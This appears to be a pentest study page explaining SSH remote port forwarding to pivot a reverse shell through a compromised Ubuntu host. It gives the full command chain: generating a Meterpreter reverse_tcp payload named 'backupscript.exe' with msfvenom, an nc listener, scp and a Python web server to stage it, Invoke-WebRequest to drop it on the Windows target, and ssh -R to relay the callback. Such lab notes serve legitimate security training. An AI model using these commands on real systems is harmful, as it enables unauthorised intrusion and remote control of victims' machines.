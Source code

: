 ```yaml
---
description: To forward a local service to the remote port
---
```


# Remote Port Forwording - SSH

## Introduction

<img src="../../.gitbook/assets/file.excalidraw (1).svg" alt="Basic diagram to explain below&#x27;s concept." class="gitbook-drawing">

In a scenario where we got the access to target `host1` and perform dynamic port forwarding to connect to RDP running on the `host2`, if we try to transfer files, use exploits, or even performing a reverse shell, these teqniques won't work since the `host2` doesn't know the attack host.

To performed the mentioned actions/exploit, we need a connection to a system that could communicate bot to us and the target host, which in our example would be `host1` .

**Creating a Windows Payload with msfvenom**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

**Starting the listener**

```bash
nc -lvnp 8080
```

After configureing the listener and creating the payload, we can move our payload to the food hold system using any mehtod of choice.

**Transferring Payload to Pivot Host**

```bash
scp backupscript.exe ubuntu@<PivotHostIP>:~/
```

**Starting Python3 Webserver on Foothold/Pivot Host**

```shell-session
python3 -m http.server 8123
```

**Downloading Payload at Target (host2)**

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

We will use `SSH remote port forwarding` to forward our msfconsole's listener service on port 8000 to the Ubuntu server's (Foot hold host1) port 8080

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

* \-vN -> verbose and not prompt login shell.
* \-R -> Ask server to listen on \<ipAddressofTarget>:8080

